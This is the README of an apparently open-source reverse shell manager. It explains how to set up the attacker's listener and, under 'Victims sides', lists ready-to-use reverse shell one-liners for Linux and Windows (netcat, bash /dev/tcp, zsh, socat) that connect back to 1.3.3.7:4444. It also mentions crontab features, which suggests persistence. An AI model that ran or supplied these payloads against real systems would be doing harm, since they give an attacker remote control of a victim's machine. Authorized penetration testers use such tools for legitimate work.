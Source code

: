 # Reverse Shell Manager

```
A multiple reverse shell sessions/clients manager via terminal
```

#### :heavy_exclamation_mark: :heavy_exclamation_mark: :heavy_exclamation_mark: 
**This project will not continue develope anymore.**  
**The next generation of this project (Platypus) has been released at https://github.com/WangYihang/Platypus**  

#### [**Platypus**](https://github.com/WangYihang/Platypus)
  * More stable
  * More features
  * Upgrade common reverse shell session to full interactive seession
  * Reverse shell as a Service
  * RESTful API
  * ...

#### Attacker side

> Clone the code

```bash
git clone https://github.com/WangYihang/Reverse-Shell-Manager
cd Reverse-Shell-Manager
```

> Install dependencies

```
pip install poetry
poetry install
```

> Start the server

```
poetry run python Reverse-Shell-Manager.py 0.0.0.0 4444
```

#### Victims sides

> Linux

```
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```

> Windows

```
nc.exe -e /bin/bash 1.3.3.7 4444
```

#### Simple Example Video 

[![asciicast](https://asciinema.org/a/143640.png)](https://asciinema.org/a/143640)

#### YouTube Example
> https://youtu.be/AoS-q1MGw30  


#### TODO
- [x] Add an item to crontab
- [x] Delete an item from crontab
- [ ] create a class to hold Master
- [ ] select/epoll

#### Bugs

- [x] A victim is connected but didn't add to online list
- [ ] socket stuck on rece()

#### LICENSE

```
THE DRINKWARE LICENSE

<wangyihanger@gmail.com> wrote this file. As long as 
you retain this notice you can do whatever you want 
with this stuff. If we meet some day, and you think 
this stuff is worth it, you can buy me the following
drink(s) in return.

Red Bull
JDB
Coffee
Sprite
Cola
Harbin Beer
etc

Wang Yihang
```
